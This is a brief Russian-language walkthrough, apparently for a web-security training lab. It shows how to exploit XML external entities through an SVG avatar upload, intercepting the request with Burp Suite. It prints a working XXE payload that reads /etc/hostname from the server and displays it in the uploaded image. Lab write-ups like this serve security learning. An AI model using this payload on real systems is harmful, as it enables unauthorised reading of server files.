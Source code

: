 ## Lab: Exploiting XXE via image file upload
1) Переходим на сайт задания и выбираем любую статью.
2) Заполняем комментарий(не важно как) и отправляем. Перехватим запрос через Burp Suite.
3) В значение поля для картинки вставляем:
```php
  <?xml version="1.0" standalone="yes"?>
  <!DOCTYPE test [ <!ENTITY xxe SYSTEM "file:///etc/hostname" > ]>
  <svg width="128px" height="128px" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" version="1.1">
  <text font-size="16" x="0" y="16">&xxe;</text>
  </svg>
```
![](https://github.com/NaylyaZh99/hacking/blob/master/lab%20XXE/task4/image.png)

4) Возвращаемся на сайт и просматриваем загруженный нами аватар:

![](https://github.com/NaylyaZh99/hacking/blob/master/lab%20XXE/task4/image1.png)

Готово!
